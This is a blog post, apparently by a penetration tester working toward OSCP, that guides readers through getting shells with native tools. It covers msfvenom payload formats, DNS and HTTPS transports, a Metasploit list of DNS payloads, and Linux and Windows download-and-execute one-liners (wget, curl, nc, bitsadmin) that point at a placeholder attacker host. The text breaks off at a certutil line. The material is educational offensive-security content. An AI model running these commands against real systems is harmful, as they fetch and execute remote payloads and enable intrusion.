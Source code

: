 ```yaml
---
layout: "post"
title: "Pop all the shells: A guide for hackers living off the land"
date: "2019-03-23 14:16"
---
```


During my OSCP Journey series, I mentioned a few pitfalls I experienced, primarily surrounding how to deliver, execute, and maintain stable shells throughout the test. I have also taken note that actually getting shells to execute during real-world pentests has grown a lot more difficult as AV solutions and heuristic detection of malware has slowly begun to grow more effective. Such is the way with this cat and mouse game we play with blue-teamers and Antivirus vendors.

However, there still remain some tried and true methods to obtaining shells on modern operating systems that are always going to be hard to stop completely. The trick to getting stable shells is by keeping things simple and using the native, built-in tools that the OS provides us with. You see, AV has to walk a very thin tight-rope between failing to detect malware and blocking legitimate activity. In a lot of ways, their job is several orders of magnitude more difficult than attackers because we only need to find one gap. They have to find both the gap and make sure they can positively identify a malicious action without completely blacklisting it wholesale in a way that blocks legitimate activity and frustrates the user.

Without further ado, here is a list of my choice methods for **delivering**, **executing**, and **stabilizing** shells and backdoors.

## Payload Preparation

Knowing your target environment is the first step. As always, having good information on your target comes before the exciting part of actually breaking into something. Thankfully, the fine folks at Rapid7 and the predecessor developers that gave us the Metasploit Framework provided us with metasploit's sidekick, msfvenom.

### Shell Formats

`msfvenom --help-formats` will quickly drop a list of the different valid types of shells you should be familiar with. The [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) tutorial from OffSec is a good reference, but I'll quickly break down the types of shell formats that are the most reliable and useful during your labs.

* `raw` - Use this for getting the raw shell source-code based on the payload you choose. ie: `php/reverse_php` will give you raw php source code. `perl/reverse_tcp` will give you a raw perl reverse shell script, and so on. Useful for arbitrary PHP upload vulnerabilities, and also for executing a shell via a local script interpreter.
* `dll` - My personal favorite for Windows execution is reflective DLL injection. Windows DLLs are flexible and can be easily injected directly into memory for reliable shell execution, and it automatically is executed in the background as a separate process, which all but guarantees a stable shell.
* `elf/exe` - Executable binaries for Linux/Windows respectively are very useful and are reliable even in the absence of scripting languages or special privileges. Ordinarily this would run the risk of setting off AV, but we're not worried about that here.
* `java/perl/python/ruby/etc` - Normally reserved for exploit development, these language-specific payloads are also applicable, particularly in certain web applications where native code execution can occur. Every now and again, you may find some magical interpreter built into the application. These methods give you the raw bytecode, so to execute it will require the native execution method for that specific language to call the bytecode directly.
* `psh-cmd` - Create a powershell one-liner with this handy format.
* `war` - The unassuming "war" file is a java-based executable that commonly accompanies web applications and automation services like those you find on Jenkins and JBoss instances.

### Shell Transports

Transport methods are how the session will be set up once the shell executes. The most common one is raw TCP, which can often be the most reliable, but is also the lease resilient against AV and especially network monitors and intrusion prevention systems. For those reasons, you'll usually need to make use of encapsulation -- encryption.

**HTTPS** is the most popular for several reasons. HTTP is the most common and most essential type of web-based traffic. It's unlikely to be blacklisted by firewalls, and even if it is filtered, there are usually ways around it. It's also extensible, easy to proxy, and encryption is expected. The only problem you may run into is where next-gen firewalls support **[deep packet inspection](https://en.wikipedia.org/wiki/Deep_packet_inspection) (DPI)** which effectively amounts to [SSL-Stripping](https://blog.checkpoint.com/2016/03/07/targeted-ssl-stripping-attacks-are-real/).

**DNS** transports are less common because they are slow but pretty sneaky when done right. DNS traffic being an essential protocol for normal network operations, DNS is almost never blocked beyond the boundaries of a network. This form of transport works by using this idea to transport communications via DNS request-reply communication over UDP to the attacker's server, acting as an ordinary DNS server.

The only reasonable defense for this is if unapproved DNS servers are blocked by network policies. As you can imagine, this is rarely found in production. The main disadvantage is how slow it is, and that it is an unencrypted protocol; however, with the advent of DNS over SSL, this may change in the future. **[DNSCat](https://wiki.skullsecurity.org/Dnscat)** is currently the most popular standalone tool for this kind of delivery method, but even metasploit has a few of these available

```
msf5 > search type:payload dns

Matching Modules
================

   Name                                                    Disclosure Date  Rank    Check  Description
   ----                                                    ---------------  ----    -----  -----------
   payload/windows/dllinject/reverse_tcp_dns                                normal  No     Reflective DLL Injection, Reverse TCP Stager (DNS)
   payload/windows/dllinject/reverse_tcp_rc4_dns                            normal  No     Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/dns_txt_query_exec                                       normal  No     DNS TXT Record Payload Download and Execution
   payload/windows/meterpreter/reverse_tcp_dns                              normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/meterpreter/reverse_tcp_rc4_dns                          normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupdllinject/reverse_tcp_dns                         normal  No     Windows Inject DLL, Reverse TCP Stager (DNS)
   payload/windows/patchupdllinject/reverse_tcp_rc4_dns                     normal  No     Windows Inject DLL, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupmeterpreter/reverse_tcp_dns                       normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (DNS)
   payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns                   normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/shell/reverse_tcp_dns                                    normal  No     Windows Command Shell, Reverse TCP Stager (DNS)
   payload/windows/shell/reverse_tcp_rc4_dns                                normal  No     Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/upexec/reverse_tcp_dns                                   normal  No     Windows Upload/Execute, Reverse TCP Stager (DNS)
   payload/windows/upexec/reverse_tcp_rc4_dns                               normal  No     Windows Upload/Execute, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/vncinject/reverse_tcp_dns                                normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4_dns                            normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
```

## Payload Delivery

Depending on the host and the vulnerability you're exploiting, figuring out how to get a shell to the target can be the trickest part, especially if you're limited on payload length or execution methods. Here are the most reliable ways I've been able to quickly deliver my shellcode for a stable shell.

### Web Delivery

Simple web delivery is the most straight-forward method, and you can open up your own HTTP server without having to configure Apache/Nginx, or anything like that. All you need is cd to the directory you want to share with your targets (I usually create a `/tmp/payloads` folder) and serve it with this simple python one-liner.  

```
cd /tmp/payloads
python2 -m SimpleHTTPServer <port>           // default port: 8888
```

Now that you've got your web server running, you need to get your target to download it. With Linux, you have several options:

```
# wget download & pipe to shell
wget -O - http://attacker-ip:8888/payload.sh | sh

# Netcat pipe to file & execute in background
nc attacker-ip:8888/payload.sh > /tmp/payload && /tmp/payload &

# Curl silent download & execute
curl -sL http://attacker-ip:8888/payload.sh | sh
```

Windows is a little less straight-forward, but there are still ample possibilities:

```
# Windows bitsadmin download & execute
cmd.exe /c "bitsadmin /transfer eviljob /download /priority high http://attacker-ip:8888/payload.exe c:\payload.exe & start c:\payload.exe"

# Windows Certutil.exe download a base64-encoded binary
certutil.exe -urlsplit -f


```
